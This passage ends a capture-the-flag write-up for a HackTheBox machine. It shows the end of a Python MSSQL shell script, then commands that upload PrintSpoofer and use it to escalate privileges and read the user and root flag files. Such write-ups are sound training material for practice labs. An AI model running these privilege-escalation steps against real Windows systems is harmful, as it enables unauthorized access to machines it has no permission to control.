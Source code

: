 ```python
            stored_cwd = cwd
            
    except _mssql.MssqlDatabaseException as e:
        if  e.severity <= 16:
            print("MSSQL failed: "+str(e))
        else:
            raise
    finally:
        if mssql:
            mssql.close()


shell()
sys.exit()
```

This should fix the problem with the UPLOAD command

Upload PrintSpoofer to the server and get the flags
```bash
UPLOAD PrintSpoofer.exe C:\temp\PrintSpoofer.exe
cd C:\temp
printspoofer.exe -i -c "powershell -c type C:\Users\3v4Si0N\Desktop\user.txt"

printspoofer.exe -i -c "powershell -c type C:\Users\cybervaca\Desktop\root.txt"
```
And we got user and root. 

### Writeups 
code --> 81b32769d55ca9fc807a86b24709a7f9
https://0xdedinfosec.github.io/posts/htb-pivotapi/ 